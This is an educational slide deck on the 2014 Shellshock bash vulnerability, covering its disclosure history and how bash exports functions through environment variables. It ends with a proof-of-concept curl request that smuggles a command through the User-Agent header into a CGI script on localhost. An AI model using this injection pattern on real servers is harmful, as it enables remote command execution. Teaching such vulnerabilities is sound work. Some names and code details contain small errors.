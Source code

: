 Shellshock
==========
:description: Shellshock bug
:deckjs_theme: swiss
:deckjs_transition: horizontal-slide
:scrollable:

== Shellshock

image::figures/shellshock-logo.png[]

[incremental="true"]
 * Discovered on *Sept, 2014*.
 * a.k.a *Bashdoor*
 * Affects bash
 * Gives the ability to execute any shell command in a remote machine.
 * *National Institute of Standards & Technology* warned vulnerability was *10/10* interms of *serverity*, *impact* & *exploitability*.


== The Shock!

[incremental="true"]
 * On *12th Sept. 2014*, Bash maintainer *Mr. Chet Ramey* is notified of the Bug by *Stephane Chazelas*, an open-source enthusiast.
 * Within hours *Chazelas* submits a patch fixing the bug.
 * Precautions taken before public announcement.
 * On *24th Sept. 2014* public announcement with bash updates
 * On *27th Sept. 2014*, *Michael Zalewski* from *Google* discovers other bash vulnerabilites and help fix them.

== "Bash"ing!

[incremental="true"]
 * *Kaspersky Labs* detected various DDOS attacks.
 * Security firm *Incapsula* noted 17,400 attacks on more than 1,800 web domains.
 * *CloudFare* tracking *1.5 million* attacks per day.
 * DDOS attacks on *Akamai Technologies*
 * Scanning of  *U.S Dept. of Defense*

== Bash environment

 * `env` command

[source,bash]
-----------
$ var=hello
$ env
$ bash
-----------

 * `var` variable is not passed to the new bash instance.

== Exporting the environment

 * `export` command

[source,bash]
---------
$ var=hello
$ export var
$ env
...
...
var=hello
...
$ bash
---------

 * Variable passed to the new bash instance.

== Bash function

[source,bash]
---------
$ foo () { echo "Hello World!"; }
$ foo
Hello World!
$ bash
$ foo
bash: foo: command not found
---------

 * Bash allows passing functions as an environment variable.

== Bash function export

[source,bash]
---------
$ foo () { echo 'Hello World!'; }
$ export -f foo
$ env
...
...
foo=() {  echo 'Hello World!'
}
...
...
$ bash
$ foo
Hello World!
---------


 * Bash *initializes `foo` as function* after parsing the special variable `foo`.

== Bash function export as a variable

[source,bash]
-------------------------------------------
$ foo='() { echo "Hello World!"; }'
$ export foo
$ env
...
...
foo=() { echo "Hello World!"; }
$ bash
$ foo
Hello World!
-------------------------------------------


== The Bug!

[source,bash]
-------------------------------------------
$ bug='() { echo "Hello World!"; }; echo "This is a Bug!"'
$ export bug
$ bash
This is a Bug!
-------------------------------------------

 * A command after the function definition is executed during *bash initialization*!


== An example: CGI-based web server

image::figures/block.png[]

== An example: CGI-based web server

 * CGI script
[source,bash]
-------------------------------------------
cat /usr/lib/cgi-bin/bashbug.sh <EOF

#!/bin/bash
echo “Content-type: text/html”
echo “”
echo “<h1> CGI Bash Bug Example </h1>”
EOF
-------------------------------------------

 * Malicious user request

[source,bash]
-------------------------------------------
$ curl -H ‘User-Agent: () { :;}; echo "Your system has been hacked!" > /tmp/hacker’ https://localhost/cgi-bin/bashbug.sh
-------------------------------------------


== References

 . https://en.wikipedia.org/wiki/Shellshock_(software_bug)/
 . https://mustbehero.wordpress.com/2016/03/22/shellshock-bash-bug-explained-with-examples
 . https://blog.cloudflare.com/inside-shellshock
 . http://www.nytimes.com/2014/09/26/technology/security-experts-expect-shellshock-software-bug-to-be-significant.html
